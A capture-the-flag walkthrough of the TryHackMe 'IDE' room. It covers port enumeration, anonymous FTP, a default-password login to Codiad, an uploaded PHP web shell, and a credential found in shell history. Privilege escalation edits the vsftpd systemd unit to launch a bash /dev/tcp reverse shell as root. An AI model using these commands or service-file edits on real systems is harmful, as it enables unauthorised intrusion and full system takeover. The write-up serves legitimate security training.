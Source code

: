 ```yaml
---

title: Walkthrough - IDE
published: true
---
```


Enumeration, Public Exploit, PrivEsc, FTP. Easy box for enumeration.

[https://tryhackme.com/room/ide](https://tryhackme.com/room/ide)

* * *

## Notes

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%), QNAP QTS 4.0 - 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

- Codiad 2.8.4
- ``searchsploit``
- After bashing my head against the wall for a few hours going back into the ftp and browsing previous directories can see a file named ``-`` we can get that and check it out

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

- can login to the Codiad with ``john:password``
- inside the clouscall folder uploaded pentestmonkey php shell and setup a listener to get a shell.
- running linpeas we find a password in history

```
mysql -u drac -p 'Th3dRaCULa1sR3aL' 
```

we can login to drac with these creds.

* * * 

## What is the user flag?

![](/assets/ide01.png)

- `sudo -l`

```
User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

This means I can restart the vsfptd server and this is great news because checking `ps aux` the vsftpd runs as root so we should be able to take advantage of this somehow.

- `find / -type f -name "vsftpd.*" 2>/dev/null`

Because we are restarting the service lets check out this file

- `nano /lib/systemd/system/vsftpd.service`

and edit it to send us a root reverse shell

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.2.127.225/6667 0>&1'


[Install]
WantedBy=multi-user.target
```

- and restart the server after setting up listener

* * * 

## What is the root flag?

![](/assets/ide02.png)

* * * 

